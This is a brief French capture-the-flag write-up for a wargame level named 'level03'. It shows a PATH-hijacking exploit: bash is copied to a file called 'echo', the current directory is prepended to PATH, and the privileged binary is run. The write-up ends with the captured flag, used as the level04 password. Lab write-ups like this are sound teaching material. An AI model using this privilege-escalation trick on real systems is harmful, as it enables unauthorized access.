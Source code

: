 # Pré requis

Télécharger peda sur la machine linux et récupérer le fichie `level03`

## GET Flag

echo "getflag" > Exploit
cp /bin/bash echo
export PATH=.:$PATH
./level03
``

# Flag

On peut executer ./level03 qui nous donne: `qi0maab88jeaj46qoumi7maus`

On peut se connecter sur le `level04`

```
level04
qi0maab88jeaj46qoumi7maus
```
